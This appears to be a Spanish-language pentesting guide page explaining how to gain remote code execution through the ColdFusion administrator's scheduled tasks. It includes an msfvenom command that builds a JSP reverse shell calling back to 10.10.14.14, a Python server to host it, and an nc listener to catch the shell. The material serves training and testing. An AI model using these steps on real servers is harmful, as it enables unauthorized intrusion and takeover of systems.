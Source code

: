 ## ¿Qué es y como funciona?

Coldfusion es una plataforma de desarrollo rápido de aplicaciones web que usa el lenguaje de programación CFML. En este aspecto, es un producto similar a ASP, JSP o PHP. ColdFusion es una herramienta que corre en forma concurrente con la mayoría de los servidores web de Windows, Mac OS X, Linux y Solaris

## RCE administrator panel

Si conseguimos acceder al Administrator del ColdFusion como el usuario Administrador y tenemos directory listing de los archivos del sistema, podemos subir un archivo malicioso que puede ser tanto ASP, JSP o PHP el cúal nos permita tener acceso al sistema victima, se puede subir mediante:

- Scheduled Tasks


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FsUgCkvUFJK6GRWca5gXc%252Fimagen.png%3Falt%3Dmedia%26token%3D6f0fbb0f-a725-41b4-bda3-cf69e5c77b86&width=768&dpr=4&quality=100&sign=04b9d2141ae0f3a4fa9f003ffb59bff68fd4f56c4e8a810b41b57c5bf0a13b17)

1. Entramos en Schedule Tasks y le damos a Shecule New Task

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fxtl4zBTfnnlpNVby8fty%252Fimagen.png%3Falt%3Dmedia%26token%3D6893f594-76eb-4f59-ba1e-7a74b43a94a0&width=768&dpr=4&quality=100&sign=f809cf75e17e149ae5c1755aea4a96ad33e59551b8b8fca41d83879194a12158)

1. Y antes de poner los nombres, creamos con msfvenom el payload que subiremos a la máquina victima y que nos dará acceso a ella.


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F7XRsDZlCkTRjzrmgrNxO%252Fimagen.png%3Falt%3Dmedia%26token%3D35dc8354-908c-493d-a3af-4e73e6566834&width=768&dpr=4&quality=100&sign=4c6380761887d3cd722a879140be5da937baac594d3a2cddd6522754b3592bf5)

Seleccionamos la java/jsp_shell_reverse_tcp

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4443 -o exploit.jsp
```

1. Donde está el exploit.jsp abrimos un servidor con python para que lo descarge el ColdFusion y lo suba.


```
python3 -m http.server 9000
```

- Para saber donde se alojan los archivos, tenemos que ir a Server Settings --> Mapping


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjrWLgOkKXtfXaXA2nz1q%252Fimagen.png%3Falt%3Dmedia%26token%3D271eef78-8053-4777-aa4e-8555e11488c0&width=768&dpr=4&quality=100&sign=c438c560ee091e40539e1389bbfcfbd95fb36453bf232e8d583ab545de2132c8)

Alojamiento archivos que se suben

1. Una vez ya sabemos donde se suben los archivos y hemos creado el payload, ahora toca rellenar la tarea.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fa4t66lr4HlkGQ3VBDtf1%252Fimagen.png%3Falt%3Dmedia%26token%3D97c7efa5-c4fa-4aed-bf25-74c5341407e7&width=768&dpr=4&quality=100&sign=b4073684464319bfaf6fea11acd07c7075cca33ac153fb0deea4333a15e8aed7)

Tarea programada

1. Ejecutamos la tarea para que se descarge el exploit.jsp


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F5ZdV1CvtuBGKrbUCglMj%252Fimagen.png%3Falt%3Dmedia%26token%3D1351ee9b-8872-4374-8c89-95ed94bb44aa&width=768&dpr=4&quality=100&sign=92e6b9d4b7dfa1e8b4a2262c60f6f21e4165ba7a928bcc388b437d45bac4d0e8)

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fjz5uFBGhpsSt5qjiW3n5%252Fimagen.png%3Falt%3Dmedia%26token%3De21c1e07-f544-4e55-8d4d-d45e5589f9e4&width=768&dpr=4&quality=100&sign=57072b257b11065fa2cc933c2c8cbb8798e2efd6ded7beebe8b65e86088b5adc)

Petición GET al exploit.jsp

1. Si actualizamos el directory listing vemos que está el exploit.jsp


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FvfaHlE1DJ3zVRliKStRY%252Fimagen.png%3Falt%3Dmedia%26token%3Dbd5a9456-6716-4d84-b7ca-b10d0f479103&width=768&dpr=4&quality=100&sign=f1bd0b1bf048a20b9e4668d88650a8f0d5cf441aff8d713477ead3a248acec57)

1. Ponemos un listener para que espere la petición que nos dará el exploit.jsp una vez le demos click

```
rlwrap -nc -lvnp 4443 # rlwrap para tener una consola interactiva, poder hacer Ctrl+L y mover tranquilamente las flechas etc
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fgy6VBp69LYyIyAja2OuI%252Fimagen.png%3Falt%3Dmedia%26token%3D88932704-12ff-4b7c-9e0b-7524fc2dc6aa&width=768&dpr=4&quality=100&sign=231ca974144b087c34044488b27e35e63880bbb6ae07fd7f66243af93c5b8d81)

	Shell sistema victima